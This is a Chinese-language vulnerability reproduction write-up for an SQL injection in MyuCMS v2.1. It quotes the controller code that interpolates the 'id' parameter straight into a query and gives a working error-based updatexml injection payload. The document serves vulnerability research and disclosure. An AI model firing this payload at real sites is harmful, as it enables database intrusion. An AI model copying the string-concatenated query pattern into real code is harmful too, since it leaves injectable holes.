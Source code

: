MyuCMS v2.1 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

在 CNVD 上的描述为，**MyuCMS us\**\*\_xi\**\*.html页面存在SQL注入漏洞**

通过对整个项目文件的搜索，最终确定为 **user\_xiaoxi.html** 文件。

该视图文件，对应的控制器为 **application/bbs/controller/User.php**
。显示消息为 **User-\>xiaoxi()**
方法。该方法中无用户可控参数。所以注入不可能在此方法中。

![1.jpg](./resource/MyuCMSv2.1sql注入漏洞/media/rId24.jpg)

如图所示功能处可将未读消息更改为已读消息。同时我们抓包观察。未读消息为其他用户在登录用户发布的文章下留言所产生。

![2.jpg](./resource/MyuCMSv2.1sql注入漏洞/media/rId25.jpg)

可以发现，该功能对应的路由地址，以及所提交的参数。我们找到路由地址对应的方法为
**User-\>xiaoxidel()** 代码如下

    public function xiaoxidel($ids)
        {
            if (!session('userid') || !session('username')) { // 进行登录判断
                $this->error('亲！请登录',url('bbs/login/index'));
            } else {
                if ($ids==0) { // 根据 ids 参数来判断执行的动作为标记消息还是删除消息
                $id = input('id'); // 通过input助手函数获取需要操作的消息对应的 id
                $data['open'] = 1;
                if (Db::name('xiaoxi')->where("id = {$id}")->where('userid', session('userid'))->update($data)) { // 此处第一个 where() 使用字符串条件时没有配合预处理机制，所以会直接将 id=$id 拼接到SQL语句中。从而造成了SQL语句可控，形成注入。此处可以进行DEBUG，看到最好的SQL语句是如何拼接的。
                    return json(array('code' => 200, 'msg' => '标记已读成功'));
                } else {
                    return json(array('code' => 0, 'msg' => '标记已读失败'));
                }
                }elseif ($ids==1){
                $id = input('id');
                if (Db::name('xiaoxi')->where("id = {$id}")->where('userid', session('userid'))->delete($id)) {
                    return json(array('code' => 200, 'msg' => '彻底删除成功'));
                } else {
                    return json(array('code' => 0, 'msg' => '彻底删除失败'));
                }
                }
            }
        }

上述代码中，**where()**
方法使用字符串条件，但并没有执行预编译。其实针对字符串条件，官方手册是做了说明的，显然这里没有遵守官方手册的意见，所以造成了SQL注入。

![3.png](./resource/MyuCMSv2.1sql注入漏洞/media/rId26.png)

### Payload

Payload如下

    Payload: id=2) and updatexml(1,concat(0x7e,(select database()),0x7e),1)  and (1

在下图所示位置打上断点，即可查执行的SQL语句

![4.jpg](./resource/MyuCMSv2.1sql注入漏洞/media/rId28.jpg)

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
